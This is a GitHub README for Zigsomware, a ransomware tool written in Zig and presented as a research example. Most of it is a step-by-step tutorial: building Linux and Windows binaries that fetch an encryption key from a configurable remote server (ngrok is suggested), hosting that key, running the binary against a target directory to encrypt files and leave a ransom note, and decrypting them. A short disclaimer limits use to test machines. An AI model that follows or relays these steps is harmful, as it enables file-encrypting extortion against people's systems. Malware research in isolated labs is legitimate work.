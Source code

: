 # :t-rex: Zigsomware :t-rex:

Zigsomware is a ransomware example written in Zig. This is not practical and is only for research purposes of Zig implementation.

<br />

## Features

- Encrypts files with XChaCha20-Poly1305.
- Downloads a encryption key from a specified server.
- Decrypts the encrypted files.

<br />

## Requirements

- Linux
- Zig version 0.14.0

<br />

> ## ATTENTION

> - The project aims to help security research and educational purposes. Do not use it on any systems not under your control.
> - Don't use it on your personal machine. Instead, use it on your test environment such as VM.
> - Anyway, use it at your own risk.

<br />

# Tutorial

## 1. Install

First clone the repository:

```sh
git clone https://github.com/hideckies/zigsomware.git
cd zigsomware
```

And build the project with specified options:

```sh
# -DSERVER_HOST: Server address
# -DSERVER_PORT: Server port
# -DSERVER_PATH: the url path of the server to download a encryption key.
zig build -DSERVER_HOST=127.0.0.1 -DSERVER_PORT=4444 -DSERVER_PATH=/
```

As above, we need to specify your server host/port/path for allowing the Zigsomware to download a encryption key. We can also set other servers such as `ngrok`.  
After that, the executables are generated under `zig-out` directory:

```sh
file ./zig-out/x86_64-linux/zigsomware
file ./zig-out/x86_64-windows/zigsomware.exe
```

## 2. Generate Encryption Key & Host It

Next, generate an encryption key to be used for encryption/decryption.  
To generate it, run the following command:

```sh
./zig-out/x86_64-linux/zigsomware --genkey
# output example: cncV+3zy9LUXPssav7SvivRAO1kPopVXRGtk+/eW/nY=
```

We need to host this key in the server that you have specified when building: `https://<SERVER_HOST>:<SERVER_PORT>/<SERVER_PATH>`.  
For testing purposes, I created a simple API server (`server/server.py`) so use it this time:

```sh
cd server
python3 -m venv .venv
source .venv/bin/activate
pip3 install -r requirements.txt
python3 server.py --port 4444 --key cncV+3zy9LUXPssav7SvivRAO1kPopVXRGtk+/eW/nY=
```

As above, we need to set the `--port` and the `--key`.  
Then this server hosts the encryption key at the root path (`/`). Our `Zigsomware` will donwload the encryption key from the server.  

## 3. Run Zigsomware (Encryption)

On the target machine, execute the `zigsomware` with the specified target directory to encrypt:

```sh
# -e: Encryption
./zigsomware -e ./test_dir/
```

When executed, the `zigsomware` downloads the encryption key from the server that you have specified, then encrypts files udner `./test_dir/` directory and appends ransom extensions (`.zigsom`) to each file.
A ransom note (`README.txt`) has also been created in the directory.

## 4. Decryption

To decrypt the files, run `zigsomware` with `-d` flag and set a **Base64-encoded encryption key** that was sent to our server during encryption:

```sh
# -d: Decrypt
# -k: Base64-encoded encryption key
./zigsomware -d -k cncV+3zy9LUXPssav7SvivRAO1kPopVXRGtk+/eW/nY= /tmp/test_dir/
```
